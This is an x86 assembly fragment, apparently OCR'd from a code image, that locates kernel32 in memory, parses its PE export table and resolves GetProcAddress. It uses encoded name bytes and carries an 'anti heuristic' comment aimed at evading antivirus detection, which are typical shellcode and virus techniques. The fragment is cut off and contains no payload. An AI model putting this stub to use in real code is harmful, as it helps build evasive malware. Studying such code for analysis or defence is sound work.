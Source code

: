 Search_Krnl32_lop:
        inc     eax
        je      Krnl32_Base_Ok
        dec     eax
        xchg    esi,eax
        LODSD
        jmp     Search_Krnl32_lop
Krnl32_Base_Ok:

        LODSD
                                ;compare if PE_hdr
        xchg    esi,eax
    find_pe_header:
        dec     esi
        xor     si,si           ;kernel32 is 64kb align
        mov     eax,[esi]
        add     ax,-'ZM'        ;
        jne     find_pe_header
        mov     edi,[esi+3ch]   ;.e_lfanew
        mov     eax,[esi+edi]
        add     eax,-'EP'       ;anti heuristic change this if you are using MASM etc.
        jne     find_pe_header

        push     esi
                                ;esi=VA Kernel32.BASE
                                ;edi=RVA K32.pehdr
        mov     ebx,esi
        mov     edi,[ebx+edi+78h]  ;peh.DataDirectory

        push    edi
        push    esi

        mov     eax,[ebx+edi+20h]  ;peexc.AddressOfNames
        mov     edx,[ebx+edi+24h]  ;peexc.AddressOfNameOrdinals
        call    __getProcAddr
        _emit 0x47
        _emit 0x65
        _emit 0x74
        _emit 0x50
        _emit 0x72
        _emit 0x6F
        _emit 0x63
        _emit 0x41
        _emit 0x64
        _emit 0x64
        _emit 0x72
        _emit 0x65
        _emit 0x73
        _emit 0x73
        _emit 0x0
        //db     "GetProcAddress",0
__getProcAddr:
        pop     edi
        mov     ecx,15
        sub     eax,4
next_:
        add     eax,4
        add     edi,ecx
        sub     edi,15
        mov     esi,[ebx+eax]
        add     esi,ebx
        mov     ecx,15
        repz    cmpsb
        jnz     next_
